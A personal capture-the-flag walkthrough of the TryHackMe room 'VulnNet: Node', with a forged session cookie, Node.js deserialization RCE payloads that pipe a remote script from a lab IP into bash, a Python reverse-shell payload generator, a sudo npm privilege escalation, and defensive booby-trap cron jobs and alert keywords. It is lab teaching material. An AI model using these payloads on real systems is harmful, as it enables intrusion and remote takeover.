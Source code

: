 
# VulnNet-Node Helped-through

Name:  VulnNet: Node
Date:  28/1/2023
Difficulty: Easy 
Description:  After the previous breach, VulnNet Entertainment states it won't happen again. Can you prove they're wrong?
Better Description: [JAVASCRIPT](https://www.youtube.com/watch?v=Uo3cL4nrGOk)
Goals: 
- General learn machine for JS "experience" with Javascript; jwt abusing; node related madness
- Finish my other machines while this goes on
- Go the extra mile on the reverse shell
Learnt: 
- JAVASCRIPT; service file configuration; Echo > editor
Beyond Root
- Test and research more booby traps 

![1080](rootwebpagedisclosurewazu.png)


## From Sometime ago...now in 2023 

I did do some of this machine up to user.txt it just never got finished and I need to finish this week beyond roots that got left behind before finishing XCT's [[Attended-Helped-Through]] this evening and hopeful doing maybe another HTB machine. [Alh4zr3d](https://www.youtube.com/watch?v=L_9UsWabfL4)'s Funday Sunday stream are very slow comparitive to the Thursday streams and therefore useful to finish the ever increasing list of Beyond Root stuff piling up. This wil be twinned with [[Hacker-vs-Hacker-Helped-Through]]

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128. 
![](ping.png)

```
Tilo Mitra
Eric Ferraiuolo
Reid Burke
Andrew Wooldridge
```

![](thecookie.png)
I have developed alot in a year - if we could session hijack.
```bash
echo "eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==" | base64 -d | sed 's/Guest/Admin/g' | base64 | sed 's/=/%3d/g'
```
Instead we are admin of nothing:
![1080](adminofnothing.png)

- Deserialize 
	- What serialization functions and libraries are in use?
	- Error on an invalid serialized object? - Send

![1080](errorsarehalfacookieworthofenumeration.png)
My original:
```json
{"username":"_$$ND_FUNC$$_require('child_process').exec('curl 10.8.73.218/shell.sh | bash', function(error, stdout, stderr) { console.log(stdout) })","isGuest":true,"encoding": "utf-8"}
```

Was missing from `_function` - but I also dont want npm - [From](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
```json
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.11.3.193/rshell.sh | bash', function(error, stdout, stderr) { console.log(stdout)});}()","isGuest":false,"encoding": "utf-8"}
’
```
I used curl to be cool, the reason it did not work the first time is the the port 80 on the Attackbox is in use. I Encoded in base64 with BurpSuite. Also I did not escape quotes 

```bash
curl -b 'InsidXNlcm5hbWUiOiJfJCRORF9GVU5DJCRfcmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2N1cmwgaHR0cDovLzEwLjExLjMuMTkzL3NoZWxsLnNoIHwgYmFzaCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pIiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifSI%3D' http://10.10.204.7:8080
```

Al inform the stream that the main issue is that this not signed and the serialization is not checking the type of data.

![](chatgptasatranslator.png)

Enjoy the python3 version by ChatGPT
```python
import sys

# Uopdated original from https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py
# With the help of ChatGPT

if len(sys.argv) != 3:
    print("Usage: %s <LHOST> <LPORT>" % (sys.argv[0]))
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print("[+] LHOST = %s" % (IP_ADDR))
print("[+] LPORT = %s" % (PORT))
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print("[+] Encoding")
PAYLOAD = charencode(NODEJS_REV_SHELL)
print("eval(String.fromCharCode(%s))" % (PAYLOAD))
```

I used both Al's, the [ocortesl](https://ocortesl.github.io/thm-writeu), without need to get the npm package: 
- Pararenthesis! 
- `\t` and `\n` helped me but not al. 
```json
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.11.3.193/rshell.sh | bash', function(error, stdout, stderr) { console.log(stdout)});}()","isGuest":false,"encoding": "utf-8"}
```

I was really set on the making the original attempt work:
![](rshell.png)

## PrivEsc

NPM!
![](Irecentlydidthis.png)
Weirdness on the box
![](homedirforwwweirdness.png)


NPM without password on sudo can do this: [GTOFbins](https://gtfobins.github.io/gtfobins/npm/#sudo)
```bash
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
```
Permission denied
![](permissiondenied.png)

Chmod granted - Idiomentary helps
```bash
chmod -R 777 /tmp 2>/dev/null
```

![](serv.png)

More sudo no passwording
![](moresudo.png)

The shell is weird as we have a tty inside of a tty.
```bash
find / -type f -name vulnnet-auto.timer 2>/dev/null
/etc/systemd/system/vulnnet-auto.timer
# find the job in the service above
find / -type f -name vulnnet-job.service 2>/dev/null
/etc/systemd/system/vulnnet-job.service
```

I botch the shell restart brain and box - Plus I need to time to think up all the mad linux battlegrounds trick I can think of.
https://tryhackme.com/room/vulnnetnode
https://www.youtube.com/watch?v=L_9UsWabfL4

## Beyond Root

Test these:

```bash
mount -o remount,noexec,rw,nosuid,relatime /dev/shm
```

Remove the webshells and its process Holo or a HTB ctf did this but did not kill the process.
```bash
* * * * * * root /bin/sleep 10 && for f in `/bin/ls /var/www/html | grep -v .html`; do p=$(ps -aux | grep $f | awk '{print $2}') && kill $p && rm /var/www/html/$f; done
```

Kill ptys
```bash
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill -9 -t pts/$f; done
```


## Operation 8008Y 7R4P

adminuser only essential nc ping, vim, emac, nano, tmux=
docker container for ssh for admin, not builtin ssh

Triad Sandbox
One sandbox escape leads to another then another and then back to the orginal sandbox.
SELinux -> Python -> 

stty is set 1 row 1 cols

The circle of doom 
```
alias 'ls'=/bin/echo'
alias 'echo'=/bin/cd'
alias 'cat'=/bin/ls'
alias 'cd'=/bin/cat'
```

Return to hell aliasing - cd to a empty very blank named directory and parent directory
```
$PATH 
$ENV
$HOME
mkdir # massive directory 
alias 'cd //'
alias '~'
alias '/'
/directories

```

Randomise stdout that is base64 encoded, split base64 encoded again removed any `=` and conv to hex 

## Probably well-known  Found Additions

Alerts
```
id,whoami, sudo,ss,netstat,cat /etc/passwd,groups, chatter,lsattr,curl,wget,passwd
```
